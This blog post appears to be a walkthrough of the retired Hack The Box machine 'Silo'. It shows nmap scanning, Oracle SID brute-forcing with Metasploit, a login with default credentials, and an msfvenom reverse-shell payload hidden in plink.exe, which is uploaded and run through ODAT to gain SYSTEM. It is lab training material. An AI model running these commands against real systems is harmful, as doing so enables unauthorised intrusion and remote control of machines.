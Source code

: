 ```yaml
---
layout: post
title: "HTB-Silo"
categories: HTB-Walkthrough
---
```


![silo](/assets/img/silo/silo-1.png)

Silo is another HTB machine from the 'retired' list that is OSCP-like.

Setting things up to get Metasploit to do its thing was honestly, the most testing thing about the experience.
Now that its all set up, I'm happy, but its not something I'd like to repeat too often!
I've decided to be of no help whatsoever in this part of the process, so that you can truly appreciate my pain!
Know that even providing you with [this link](https://blog.zsec.uk/msforacle/), I mock your anguish!

;)



<h4>Nmap</h4>

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.82 |tee -a silo.txt`

```

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

```


The initial enumeration of the webserver (port80) yeilded nothing of importance, so I moved on to investigation of Oracle.



<h4>msfconsole</h4>


`use auxiliary/scanner/oracle/tnspoison_checker`

`use auxiliary/admin/oracle/sid_brute`

```

[*] 10.10.10.82:1521 - Starting brute force on 10.10.10.82, using sids from /usr/share/metasploit-framework/data/wordlists/sid.txt...
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'XE'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'PLSExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID 'CLRExtProc'
[+] 10.10.10.82:1521 - 10.10.10.82:1521 Found SID ''
[*] 10.10.10.82:1521 - Done with brute force...
[*] Auxiliary module execution completed
msf5 auxiliary(admin/oracle/sid_brute) > 

```

`use auxiliary/admin/oracle/oracle_login`

This is where I ran into trouble with ruby, I got an 'oci8' error, and so needed to install a bunch of stuff!

`https://github.com/kubo/ruby-oci8`

download latest version and install that !!!!

Next I found I had to install Odat, I just got the 'quick' version!
....well when I say quick.....!!!!


<hr width="250" size="6">


Eventually I get things set up, and can resume...

![msf-brutelogin](/assets/img/silo/silo-msf-brutelogin.png)


Success!!!
we've got the default login creds for the training account - scott/tiger


<hr width="250" size="6">


<h3>ODAT-Exploit</h3>

Now we need to use ODAT to upload and execute files in the Admin folder...



![odat-privesc](/assets/img/silo/silo-odat-privesc.png)



We need to create a payload to upload, an evil1.exe

I used msfvenom to generate one, and embedded it into plink for maximum snek!

```

msfvenom -f exe -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4443 -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil1.exe

```



Then upload it via ODAT

```

./odat-libc2.12-x86_64 utlfile -s 10.10.10.82 -d XE -U scott -P tiger --test-module --putFile /Users/Administrator/Desktop/ evil1.exe /root/HTB/retired/silo/evil1.exe

```

get nc listener ready on 4443; and execute the file, again via ODAT

```

./odat-libc2.12-x86_64 externaltable -s 10.10.10.82 -d XE -U scott -P tiger --exec /Users/Administrator/Desktop/ evil1.exe

```

Instant System !!!


```

c:\Users>whoami
whoami
nt authority\system

c:\Users>type phineas\desktop\user.txt
type phineas\desktop\user.txt
92xxxxxxxxxxxxxxxxxxxxxxxxxxxx17
c:\Users>type administrator\desktop\root.txt
type administrator\desktop\root.txt
cdxxxxxxxxxxxxxxxxxxxxxxxxxxxxf6
c:\Users>

```

<hr width="250" size="6">


I spent a lot of time on this box, not just in the setting up of odat, but tinkering with the commands, and selecting the best
methods to pwn the system. This was just the most straight-forward!



:)

